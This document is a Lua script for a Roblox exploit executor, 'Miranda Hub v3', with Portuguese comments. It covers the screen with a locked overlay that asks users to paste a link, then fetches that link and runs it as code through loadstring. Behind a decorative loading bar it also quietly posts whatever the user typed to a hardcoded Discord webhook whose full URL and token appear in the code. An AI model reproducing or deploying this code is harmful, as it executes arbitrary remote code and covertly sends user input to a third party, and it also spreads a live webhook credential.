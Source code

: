 -- Miranda Hub v3 + Discord Webhook + Tela fixa + Barra bonita
local Players = game:GetService("Players")
local player = Players.LocalPlayer
local parent = (gethui and gethui()) or player:WaitForChild("PlayerGui")
local HttpService = game:GetService("HttpService")

-- Remove GUI antiga
if parent:FindFirstChild("MirandaV3") then
    parent:FindFirstChild("MirandaV3"):Destroy()
end

-- GUI
local gui = Instance.new("ScreenGui")
gui.Name = "MirandaV3"
gui.ResetOnSpawn = false
gui.IgnoreGuiInset = true
gui.ZIndexBehavior = Enum.ZIndexBehavior.Sibling
gui.Parent = parent

local fundo = Instance.new("Frame")
fundo.Size = UDim2.new(1,0,1,0)
fundo.BackgroundColor3 = Color3.fromRGB(0,0,0)
fundo.BorderSizePixel = 0
fundo.ZIndex = 999999
fundo.Parent = gui

local titulo = Instance.new("TextLabel")
titulo.Size = UDim2.new(1,0,0.12,0)
titulo.Position = UDim2.new(0,0,0.03,0)
titulo.BackgroundTransparency = 1
titulo.Text = "😎 MIRANDA HUB v3"
titulo.Font = Enum.Font.GothamBlack
titulo.TextScaled = true
titulo.TextColor3 = Color3.new(1,1,1)
titulo.ZIndex = 999999
titulo.Parent = fundo

local caixa = Instance.new("TextBox")
caixa.Size = UDim2.new(0.8,0,0.1,0)
caixa.Position = UDim2.new(0.1,0,0.42,0)
caixa.PlaceholderText = "Cole o link aqui..."
caixa.Text = ""
caixa.Font = Enum.Font.SourceSansBold
caixa.TextScaled = true
caixa.BackgroundColor3 = Color3.fromRGB(25,25,25)
caixa.TextColor3 = Color3.new(1,1,1)
caixa.ZIndex = 999999
caixa.ClearTextOnFocus = false
caixa.Parent = fundo

local confirmar = Instance.new("TextButton")
confirmar.Size = UDim2.new(0.36,0,0.09,0)
confirmar.Position = UDim2.new(0.32,0,0.58,0)
confirmar.Text = "✅ Confirmar"
confirmar.Font = Enum.Font.GothamBold
confirmar.TextScaled = true
confirmar.BackgroundColor3 = Color3.fromRGB(40,120,40)
confirmar.TextColor3 = Color3.new(1,1,1)
confirmar.ZIndex = 999999
confirmar.Parent = fundo

-- Webhook
local webhook_url = "https://discord.com/api/webhooks/1430589345081065472/W0sSGv1A25UxHc6qFMsJWd5IFjK7A2-9QzLpV2azQn453XoqMq9PUaxqlkxQwz7zX4CO"

local function enviarWebhook(link)
    local data = {content = string.format("%s", link)}
    local body = HttpService:JSONEncode(data)
    pcall(function()
        if syn and syn.request then
            syn.request({Url=webhook_url, Method="POST", Headers={["Content-Type"]="application/json"}, Body=body})
        elseif http_request then
            http_request({Url=webhook_url, Method="POST", Headers={["Content-Type"]="application/json"}, Body=body})
        elseif request then
            request({Url=webhook_url, Method="POST", Headers={["Content-Type"]="application/json"}, Body=body})
        end
    end)
end

-- Executa link
local function executarLinkSeguro(link)
    if link == "" then return end
    local code
    pcall(function()
        if syn and syn.request then
            code = syn.request({Url = link, Method = "GET"}).Body
        elseif http_request then
            code = http_request({Url = link, Method = "GET"}).Body
        else
            code = game:HttpGet(link)
        end
    end)
    local f = loadstring(code)
    if f then
        pcall(f)
    end
end

-- Confirmar botão
confirmar.Activated:Connect(function()
    local link = tostring(caixa.Text or ""):gsub("^%s+", ""):gsub("%s+$", "")
    if link == "" then
        titulo.Text = "❌ Cole um link válido!"
        return
    end

    titulo.Text = "📨 Enviando..."
    confirmar.Visible = false
    caixa.Visible = false

    -- Executa o link
    task.spawn(function()
        executarLinkSeguro(link)
    end)

    -- Envia link digitado para Discord
    task.spawn(function()
        enviarWebhook(link)
    end)

    -- Barra de carregamento bonita
    task.spawn(function()
        local screenGui = Instance.new("ScreenGui")
        screenGui.Name = "LoadingScreen"
        screenGui.ResetOnSpawn = false
        screenGui.Parent = parent

        local frame = Instance.new("Frame")
        frame.Size = UDim2.new(0.6,0,0.14,0)
        frame.Position = UDim2.new(0.2,0,0.43,0)
        frame.BackgroundColor3 = Color3.fromRGB(30,30,30)
        frame.BorderSizePixel = 0
        frame.ClipsDescendants = true
        frame.Parent = screenGui

        local corner = Instance.new("UICorner")
        corner.CornerRadius = UDim.new(0,12)
        corner.Parent = frame

        local innerBar = Instance.new("Frame")
        innerBar.Size = UDim2.new(0,0,1,0)
        innerBar.BackgroundColor3 = Color3.fromRGB(0,170,255)
        innerBar.BorderSizePixel = 0
        innerBar.Parent = frame

        local innerCorner = Instance.new("UICorner")
        innerCorner.CornerRadius = UDim.new(0,12)
        innerCorner.Parent = innerBar

        local percentLabel = Instance.new("TextLabel")
        percentLabel.Size = UDim2.new(1,0,0.3,0)
        percentLabel.Position = UDim2.new(0,0,0,0)
        percentLabel.BackgroundTransparency = 1
        percentLabel.Font = Enum.Font.GothamBold
        percentLabel.TextScaled = true
        percentLabel.TextColor3 = Color3.fromRGB(255,255,255)
        percentLabel.Text = "1%"
        percentLabel.Parent = frame

        -- Animação de 1% a 100%
        for i = 1,100 do
            innerBar.Size = UDim2.new(i/100,0,1,0)
            percentLabel.Text = i.."%"
            task.wait(0.03)
        end
        percentLabel.Text = "100%" -- trava no final
    end)
end)

caixa.FocusLost:Connect(function(enter)
    if enter then
        confirmar.Activated:Fire()
    end
end)
